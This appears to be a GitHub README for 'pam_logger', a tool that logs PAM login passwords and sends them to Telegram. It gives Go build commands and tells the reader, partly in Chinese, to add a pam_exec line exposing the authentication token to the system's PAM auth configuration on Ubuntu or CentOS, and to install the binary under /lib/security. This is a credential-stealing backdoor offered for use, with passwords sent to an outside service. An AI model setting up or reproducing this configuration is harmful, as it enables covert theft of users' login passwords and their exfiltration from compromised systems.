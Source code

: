 # pam_logger
log pam password and send in telegram
###
```
go get -u github.com/rs/zerolog/log
go get github.com/go-telegram-bot-api/telegram-bot-api/v5
go build main.go
```
###
添加額外執行logger

ubuntu添加在/etc/pam.d/common-auth

centos 添加在/etc/pam.d/system-auth

auth optional pam_exec.so quiet expose_authtok /lib/security/pam_logger

###
然後將編譯好的main 改名放置到/lib/security/pam_logger
